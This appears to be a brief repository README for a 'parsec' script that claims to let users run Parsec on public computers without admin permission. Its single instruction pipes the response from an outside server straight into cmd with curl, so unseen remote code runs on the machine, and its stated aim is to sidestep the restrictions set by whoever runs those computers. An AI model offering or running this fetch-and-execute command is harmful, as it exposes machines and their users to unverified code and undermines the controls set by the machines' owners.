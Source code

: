 # parsec
script to access Parsec without admin perm. (on public pc)

Open up a CMD and run:
```
curl -L server.hys.cz/parces/ | cmd
```

